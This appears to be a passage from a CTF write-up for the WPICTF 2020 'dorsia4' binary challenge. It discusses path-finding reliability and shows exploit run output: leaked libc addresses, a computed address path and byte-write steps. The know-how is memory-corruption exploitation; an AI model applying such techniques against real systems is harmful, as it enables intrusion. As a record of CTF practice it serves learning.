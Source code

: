 The previous code could not find a path ~1/8th of the time.  The newer version without `dprintf` added as a safe address is worse at ~3/8ths making the likelihood of a flag ~60%.  `SEGSEGV`s are down as well, but proportional to the number of good paths, so, no surprise.

The paths are also completely different without `dprintf`, implying there was never a path with the previous code that did not bounce through `dprintf`.

This is the solution I was working for before the end of the CTF.  Sadly I just failed to find every nopsled.


#### Output

```
# ./exploit2.py
[*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dorsia4.wpictf.xyz on port 31337: Done
[*] '/pwd/datajerk/wpictf2020/dorsia4/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
system:  0x7e0e3d0b8440
libc:    0x7e0e3d069000
printf:  0x7e0e3d0cde80

computing safe addresses...0 seconds
building graph...11 seconds

path found (len: 21):

0xcde80
0xcde73
0xc7973
0xc793f
0x17793f
0x179a3f
0x179a50
0x179950
0x179990
0x17ad90
0x18ad90
0x18ad3b
0x18be3b
0x18be9f
0x18a69f
0x18a6e4
0xba6e4
0xba66a
0xb7d6a
0xb7d22
0xb8322

put 0x73 in 0
put 0x79 in 1
put 0x3f in 0
put 0x17 in 2
put 0x9a in 1
put 0x50 in 0
put 0x99 in 1
```